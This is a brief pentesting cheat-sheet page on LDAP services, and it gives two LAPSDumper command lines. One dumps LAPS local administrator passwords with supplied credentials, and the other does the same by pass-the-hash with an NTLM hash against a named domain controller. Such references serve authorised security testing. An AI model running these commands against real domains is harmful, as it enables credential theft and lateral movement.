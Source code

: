 ```yaml
---
layout: default
title: LDAP Pentesting
nav_order: 2
has_children: false
parent: Services Pentesting
grand_parent: Pentesting
---
```


## LDAP Pentesting (389, 636, 3268, 3269) :

### LAPSDumper (Dump credential - [Documentation](https://github.com/n00py/LAPSDumper)) :

Usage - Basic:

```bash
python3 laps.py -u user -p password -d domain.local
```

Pass the Hash, specific LDAP server:

```bash
python3 laps.py -u user -p e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c -d domain.local -l dc01.domain.local
```